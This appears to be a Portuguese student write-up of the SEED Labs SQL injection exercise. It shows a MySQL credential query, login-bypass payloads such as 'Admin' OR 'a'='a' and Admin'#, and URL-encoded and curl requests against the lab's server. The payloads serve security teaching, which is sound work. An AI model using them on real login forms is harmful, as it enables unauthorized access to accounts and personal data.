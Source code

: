 # Trabalho realizado nas Semana #8 e #9

## **Seed Labs**

## Tarefa 1

```
    mysql> select * from credential where Name = "Alice";
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    | ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    |  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    1 row in set (0.01 sec)

    mysql> 
```

## Tarefa 2

Colocando "Admin' OR 'a'='a" no username vai alterar a query fazendo com que a condição seja sempre verdadeira. A query será assim:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin' or 'a'='a' and Password='';
```

![login](login.png)

![info](details.png)

Uma alternativa mais simples é colocar "Admin'#" no username, o que fará com que o que vem depois do '#' seja apenas um comentário, o que faz com que a condição seja verdadeira em name = 'Admin'

![login2](login2.png)

## Tarefa 3

http://www.seed-server.com/unsafe_home.php?username=admin'+OR+'a'+'a&Password=

http://www.seed-server.com/unsafe_home.php?username=admin%27+OR+%27a%27%3D%27a&Password=

```
    curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27+OR+%27a%27%3D%27a&Password=' > index.html
```

abrindo o index.html no browser, obtemos:


![info](details2.png)


